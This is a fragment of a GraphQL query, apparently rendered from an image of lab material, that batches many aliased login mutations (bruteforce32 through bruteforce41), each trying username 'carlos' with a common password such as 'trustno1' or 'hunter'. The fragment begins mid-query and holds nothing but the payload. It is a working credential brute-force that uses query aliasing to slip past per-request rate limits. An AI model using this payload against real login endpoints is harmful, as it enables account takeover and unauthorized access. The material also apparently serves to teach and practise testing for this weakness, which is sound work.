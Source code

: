 ```plain
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


```